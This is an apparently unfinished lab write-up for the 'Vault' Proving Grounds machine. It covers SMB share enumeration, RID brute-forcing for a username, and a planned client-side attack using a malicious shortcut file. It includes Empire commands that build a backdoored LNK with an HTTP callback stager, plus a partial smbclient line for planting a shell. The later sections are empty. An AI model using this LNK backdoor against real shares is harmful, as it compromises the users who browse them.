 
Name: Vault
Date:  
Difficulty:  
Goals:  
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Vault/Screenshots/ping.png)

![](enumfourlinuxshares.png)
smbmap show permissions
![](readwriteShare.png)

Bang on the [Tamil music to stay culturally enriched](https://www.youtube.com/watch?v=V8R1aZf1-AU). Anirudh is a tamil name on first google. 
![](bruteridsanirudh.png)

We have a writable share, a username - need a password and means of execution. After considering everything I went for both enumeration hint - it is ballbuster because it declare the the share is writable and the second is that there is a scripted user that will click shortlinks.

"Mount a client-side attack by uploading a shortcut file to the SMB share. A user will view the share and render file icons in it."

After some checking. This is definately not a OSCP like machine. So I am going to use metasploit or some C2  as I thought that this would not involve fake social engineering practice. Basically to keep the process clean and not mental fazzle myself doing this machine. Also [pentesterlab](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/) suggests we can use Empire which is OSCP related.

Edited from the article
```python
usemodule powershell/persistence/userland/backdoor_lnk
usestager windows/launcher_lnk
set Listener http
execute
```

Did not get call back, but I also did not remove it from the share, so it is not considered malicious. So it might that want something really specific.



## Exploit

## Foothold

## PrivEsc

      
We can put a shell on smbclient -N ///DocumentsShare -U guest%<put empty quotes here>

